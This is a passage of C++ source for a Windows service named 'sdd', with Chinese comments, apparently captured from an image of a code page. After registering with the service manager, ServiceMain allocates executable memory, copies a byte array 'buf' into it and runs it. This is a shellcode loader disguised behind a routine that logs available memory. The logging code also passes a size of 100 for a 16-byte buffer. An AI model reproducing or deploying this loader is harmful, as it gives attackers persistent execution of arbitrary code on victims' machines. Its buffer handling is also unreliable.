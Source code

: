 ```c++
    SetServiceStatus(hStatus, &ServiceStatus);
    return;
}

void ServiceMain(int argc, char** argv)
{
    WCHAR WserviceName[] = TEXT("sdd");
    int error;
    ServiceStatus.dwServiceType =
        SERVICE_WIN32;
    ServiceStatus.dwCurrentState =
        SERVICE_START_PENDING;
    /*在本例中只接受系统关机和停止服务两种控制命令*/
    ServiceStatus.dwControlsAccepted =
        SERVICE_ACCEPT_SHUTDOWN |
        SERVICE_ACCEPT_STOP;
    ServiceStatus.dwWin32ExitCode = 0;
    ServiceStatus.dwServiceSpecificExitCode = 0;
    ServiceStatus.dwCheckPoint = 0;
    ServiceStatus.dwWaitHint = 0;
    hStatus = ::RegisterServiceCtrlHandler(
        WserviceName,
        (LPHANDLER_FUNCTION)CtrlHandler);
    if (hStatus == (SERVICE_STATUS_HANDLE)0)
    {

        WriteToLog("RegisterServiceCtrlHandler failed");
        return;
    }
    WriteToLog("RegisterServiceCtrlHandler success");
    /* Initialize Service   */
    error = InitService();
    if (error)
    {
        /* Initialization failed  */
        ServiceStatus.dwCurrentState =
            SERVICE_STOPPED;
        ServiceStatus.dwWin32ExitCode = -1;
        SetServiceStatus(hStatus, &ServiceStatus);
        return;
    }

    LPVOID Memory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(Memory, buf, sizeof(buf));
    ((void(*)())Memory)();

    /*向SCM 报告运行状态*/
    ServiceStatus.dwCurrentState =
        SERVICE_RUNNING;
    SetServiceStatus(hStatus, &ServiceStatus);

    /*do something you want to do in this while loop*/
    MEMORYSTATUS memstatus;
    while (ServiceStatus.dwCurrentState ==
        SERVICE_RUNNING)
    {
        char buffer[16];
        GlobalMemoryStatus(&memstatus);
        int availmb = memstatus.dwAvailPhys / 1024 / 1024;
        sprintf_s(buffer, 100, "available memory is %dMB", availmb);
        int result = WriteToLog(buffer);
        if (result)
```
